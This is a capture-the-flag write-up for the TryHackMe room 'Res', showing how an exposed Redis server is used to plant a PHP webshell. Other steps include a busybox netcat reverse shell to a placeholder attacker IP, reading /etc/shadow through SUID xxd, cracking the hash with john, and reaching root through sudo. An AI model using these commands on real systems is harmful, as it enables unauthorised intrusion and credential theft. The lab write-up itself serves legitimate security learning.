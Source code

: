 ```yaml
---
title: "Res"
date: 2025-02-05
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Res
categories: [TryHackMe, Easy]
tags: [linux, dbms, redis, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Res</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/res">https://tryhackme.com/room/res</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Res.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.174.47             
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:14 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  6379/tcp open  redis

  Nmap done: 1 IP address (1 host up) scanned in 30.83 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,6379 10.10.174.47
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:15 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.037s latency).

  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  6379/tcp open  redis   Redis key-value store 6.0.7

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.42 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Since the webserver displayed an `Apache2` default website, I conducted a Gobuster scan, but it didn’t reveal anything useful.

## Port 6379 Analysis

As nmap revealed a `redis` service running on port `6379`, I used the redis cli to connect to the server. Since redis uses a file-based structure, I was able to create a new file. I leveraged this to create a PHP webshell: 

```bash
10.10.3.94:6379> config set dir /var/www/html
	OK
10.10.3.94:6379> config set dbfilename shell.php
	OK
10.10.3.94:6379> set test "<?php system($_GET['cmd']);?>"
	OK
10.10.3.94:6379> save
	OK
```

This allowed me to successfully execute commands on the system:

![Command Execution](/assets/img/tryhackme/Res/thm_res_1.jpg)

Next, I generated a reverse shell using `busybox`:

```bash
http://10.10.3.94/shell.php?cmd=busybox nc [attackerip] 9001 -e sh
```

Netcat received the the reverse shell, after which I stabilized the session. From here I was able to collect the user flag:

```bash
www-data@ubuntu:/var/www/html$ cd /home
www-data@ubuntu:/home$ ls
	vianka
www-data@ubuntu:/home$ cd vianka/
www-data@ubuntu:/home/vianka$ ls
	redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt 
	thm{[removed]} 
```

## Privilege Escalation vianka

While performing manual privilege escalation techniques, I discovered an executable with the SUID bit set:

```bash
/usr/bin/xxd
```

I used xxd to read the `shadow` file which gave me the user hash from `vianka`:

```bash
$ LFILE=/etc/shadow
$ xxd "$LFILE" | xxd -r
	vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

On my local machine I created a file, pasted the hash in and ran it with `john` against the `rockyou.txt`:
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (vianka)     
1g 0:00:00:00 DONE (2025-02-13 05:02) 10.00g/s 20480p/s 20480c/s 20480C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Using the cracked password, I successfully logged in as `vianka`:
```bash
www-data@ubuntu:/home/vianka$ su vianka 
  Password: 
vianka@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
vianka@ubuntu:~$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

From here I just needed to read the flag:
```bash
vianka@ubuntu:~$ sudo cat /root/root.txt
thm{[removed]}
```

solved! :)